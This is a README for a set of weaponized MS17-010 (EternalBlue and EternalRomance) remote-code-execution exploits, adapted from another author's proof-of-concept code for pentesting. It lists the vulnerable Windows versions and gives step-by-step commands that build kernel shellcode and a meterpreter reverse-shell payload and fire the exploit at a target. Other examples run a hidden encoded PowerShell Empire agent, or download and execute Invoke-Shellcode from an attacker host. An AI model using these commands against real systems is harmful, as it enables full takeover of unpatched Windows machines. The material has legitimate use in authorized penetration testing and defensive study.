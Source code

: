 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance, so don't try this on critical systems. 

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 R2 SP1 x64
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance (and Eternalsynergy). A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

### Compatible targets

- Windows 2016 x64
- Windows 10 x64
- Windows 10 x86
- Windows 2012 R2 x64
- Windows 2008 R2 SP1 x64
- Windows 2008 SP1 x64
- Windows 2008 SP1 x86
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 7 SP1 x64
- Windows 2003 SP2 x86
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows XP SP3 x86
- Windows 2000 SP4 x86

### Usage

Example for finding a named pipe (not required anymore, exploit now automatically finds a named pipe on the target):

`python find_named_pipe.py 192.168.178.2 testuser Password123`

Usage of `eternalromance.py`: 

`python eternalromance.py <target_ip_address> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
